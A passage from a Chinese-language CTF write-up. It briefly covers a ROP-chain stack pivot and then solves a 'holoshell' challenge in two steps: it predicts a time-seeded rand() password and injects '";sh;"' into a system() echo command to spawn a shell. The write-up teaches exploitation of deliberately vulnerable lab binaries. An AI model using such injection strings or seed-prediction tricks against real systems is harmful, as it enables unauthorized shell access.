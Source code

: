 由於read會寫到\[rbp-0x50\]的位置所以當RBP已經在bss段上時就能把ROP chain寫在bss段上，在上面疊好ROP chain之後就跳進去就能成功get shell
![](https://i.imgur.com/cegj4ww.png)

[exploit](/pwn/gawr_gura/solve.py)


## holoshell
### 考點
1. time(0)當rand的seed
2. command injection
### exploit
本題第一步在於當使用者連上後會透過`srand(time(0))`來設定rand的seed然後用這個rand來產生一組10個字的密碼
```c=
srand(time(0));
for (int i = 0; i < 10; i++)
{
    passwd[i] = 33 + (rand() % (126 - 32) + 1);
}
```
因為是用連線當下的時間來做rand的seed所以如果在和他連線的同時做一樣的事情就能拿到一樣的seed，因為同樣的seed會讓rand產生相同的隨機數，所以就能夠產生一組相同的密碼了
```c=
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main()
{
    char pw[10];
    srand(time(NULL));
    for (int i = 0; i < 10; i++)
    {
        pw[i] = 33 + (rand() % (126 - 32) + 1);
    }
    printf("pw: %s\n", pw);
}
```
接著透過密碼登錄後會進到第二個部分，這部分會把使用者輸入的內容和本來的字串做串接接著放到system裡面去執行
```c=
read(0, buf, 10);
asprintf(&command, "echo \"%s\" >> HololiveTW.txt", buf);
system(command);
free(command);
```
由於輸入的內容會被放到雙引號之間所以如果輸入123會變成`echo "123" >> HololiveTW.txt`然後丟到system裡面執行，但是因為沒有對輸入的內容作任何檢查所以可以將`"`閉合掉然後用`;`來結束前一個指令接下一個指令，所以如果輸入`";sh;"`最後就會變成`echo "";sh;"" >> HololiveTW.txt`這樣丟進system裡面就會變成一次執行三個指令分別是
1. echo ""
2. sh
3. "" >> HololiveTW.txt

這樣就能成功達成command injection的效果來執行`system("sh")`來把shell開啟
